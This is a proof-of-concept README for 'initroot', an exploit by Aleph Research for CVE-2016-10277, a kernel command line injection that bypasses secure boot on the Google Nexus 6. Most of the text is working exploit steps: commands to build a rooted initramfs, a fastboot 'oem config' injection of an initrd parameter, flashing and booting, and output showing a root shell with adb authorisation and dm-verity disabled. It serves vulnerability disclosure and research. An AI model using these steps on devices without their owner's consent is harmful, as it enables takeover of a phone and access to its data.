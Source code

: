 # PoC for initroot: Google Nexus 6 Kernel Command Line Injection Secure Boot Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies 

Steps:

1. Use the commited `initroot.cpio.gz`, or produce your own:

```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot.cpio.gz
$ cd ..
```

Our commited initramfs contains an AOSP userdebug root partition with adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the system partition.

2. fastboot oem config fsg-id "a initrd=0x11000000,<initroot.cpio.gz size>"
3. fastboot flash foo initroot.cpio.gz
4. fastboot continue
5. if you use our initramfs, `adb shell` will now give you a root shell:

```
$ adb shell
shamu:/ # id 
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```


Blog post with details is available [here](https://alephsecurity.com/2017/05/23/nexus6-initroot/)



